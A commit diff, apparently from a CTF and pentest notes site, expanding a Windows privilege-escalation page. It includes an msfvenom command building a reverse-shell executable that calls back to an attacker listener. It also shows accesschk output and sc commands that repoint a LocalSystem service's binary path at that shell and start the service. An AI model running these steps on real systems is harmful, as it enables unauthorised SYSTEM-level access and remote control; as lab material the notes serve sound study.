

Before and after one commit to xanhacks/ctf-docs, an MkDocs documentation site: the page built from docs/pentest/privesc/windows.md, in a window 1280 px wide and 1400 px high, scrolled down 354 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
add more privesc

````diff
--- a/docs/pentest/privesc/windows.md
+++ b/docs/pentest/privesc/windows.md
@@ -5,12 +5,72 @@ description: Windows privilege escalation.
 
 # Windows Privesc
 
+## Tools
+
+- [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS).
+
 ## Reverse shell
 
 Using `msfvenom` :
 
-```
+```bash
 $ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.52.128 LPORT=8888 -f exe -o revshell.exe
 ```
 
 Using [nishang](https://github.com/samratashok/nishang).
+
+## Permissions
+
+## View
+
+List permissions of a user using `accesschk.exe`.
+
+```powershell
+C:\> accesschk.exe /accepteula -uwcqv <USER> <SERVER>
+
+C:\> accesschk.exe /accepteula -uwcqv user daclsvc
+RW daclsvc
+        SERVICE_QUERY_STATUS
+        SERVICE_QUERY_CONFIG
+        SERVICE_CHANGE_CONFIG
+        SERVICE_INTERROGATE
+        SERVICE_ENUMERATE_DEPENDENTS
+        SERVICE_START
+        SERVICE_STOP
+        READ_CONTROL
+```
+
+## SERVICE_CHANGE_CONFIG
+
+**SERVICE_CHANGE_CONFIG :** Change the service configuration.
+
+```powershell
+# Check the service 'daclsvc' configuration (qc : query configuration)
+C:\PrivEsc>sc qc daclsvc
+[SC] QueryServiceConfig SUCCESS
+
+SERVICE_NAME: daclsvc
+        TYPE               : 10  WIN32_OWN_PROCESS
+        START_TYPE         : 3   DEMAND_START
+        ERROR_CONTROL      : 1   NORMAL
+        BINARY_PATH_NAME   : "C:\Program Files\DACL Service\daclservice.exe"
+        LOAD_ORDER_GROUP   :
+        TAG                : 0
+        DISPLAY_NAME       : DACL Service
+        DEPENDENCIES       :
+        SERVICE_START_NAME : LocalSystem
+
+# Change the binpath value
+C:\PrivEsc>sc config daclsvc binpath="\"C:\Users\user\revshell.exe\""
+[SC] ChangeServiceConfig SUCCESS
+
+C:\PrivEsc>sc qc daclsvc
+[...]
+        BINARY_PATH_NAME   : "C:\Users\user\revshell.exe"
+[...]
+
+# Start the service 'daclsvc'
+C:\PrivEsc>net start daclsvc
+```
+
+## Service unquoted path
````
Also changed, not shown: docs/pentest/privesc/linux.md (+7 -5 lines).
